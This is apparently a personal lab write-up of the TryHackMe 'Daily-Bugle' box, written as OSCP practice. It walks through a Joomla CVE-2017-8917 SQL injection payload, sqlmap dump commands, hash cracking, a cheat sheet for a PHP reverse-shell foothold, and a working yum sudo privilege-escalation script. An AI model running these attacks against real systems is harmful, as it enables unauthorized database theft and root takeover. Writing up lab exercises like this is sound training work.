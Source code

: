 # Daily-Bugle Walkthrough
Name: Daily-Bugle
Date:  23/09/2022
Difficulty:  Hard
Goals:  
- OSCP 2/5 Medium Machines with or without walkthough if needed 
- Practice SQLi revision from the morning
Learnt:
- I need to and have scheduled in a python scripting exploits day 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


[Joomla](https://www.joomla.org/) php 5.6.4
CentOS

![](www-webroot.png)

```
eaa83fe8b963ab08ce9ab7d4a798de05 
f7lrn1l0vo1vv9cmmqqc42d6l4
```

![](misfornatecookie.png)

## Exploit

Blind-Based Boolean SQLi 
![780](cve-2017-8917.png)


From looking [brainwrf](https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917/blob/master/CVE-2017-8917.py)
```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(1,user()),1)
```
![](meanwhile.png)

Scripting Python day is somewhat long over due. I have done lots of l33tcode questions,  but for some reason the request library and solving problems by requesting stuff has yet, but soon stick.. [Assist from Mathias](https://medium.com/@Mathias_Rud/tryhackme-daily-bugle-writeup-35d74fc8df7f) with SQLmap 

```bash
sqlmap -u "http://10.10.94.98/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![](johan.png)

`#__users`

```bash
sqlmap -u "http://10.10.83.52/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -C password -D joomla -T "#__users" --dump

bcrypt blowfish
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

```

Pure brute forcing with john... `spiderman123`

![](joomlapanel.png)

## Foothold

One of the best resources on the internet: [haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/joomla/)

```
# You must first log as admin
# Then you must activate the PHP extension in settings
System → Component → Media → “php” in legal extensions and nothing in ignored extension

# If it's not enough and the manager is detecting malicious PHP upload, you can still edit templates
# For example, the /index.php on the “protostar" template
→ Use reverse shell from pentestmonkey
→ http://pentestmonkey.net/tools/web-shells/php-reverse-shell

# On old versions, the control panel and features are different, but you can use templates
# First go into templates parameters and activate preview
# Then, on one template it is possible to edit code
# Then it is possible to add shell (weevely for example)
```

![](webshell.png)


## PrivEsc

This part I will do without walkthrough, because 

```bash

uname -a

Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

cat /etc*-release

CentOS Linux release 7.7.1908 (Core)
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

CentOS Linux release 7.7.1908 (Core)
CentOS Linux release 7.7.1908 (Core)

```

![](configuration.png)

Tried login into the mariadb
```bash
bash-4.2$ mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO) 
# :(
```

Jonah's reused the password: nv5uz9r3ZEDzVjNu
![](passwordreuse.png)

GTFObins with yum and sudo as:
![](sudol.png)


```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![]()
![](root.png)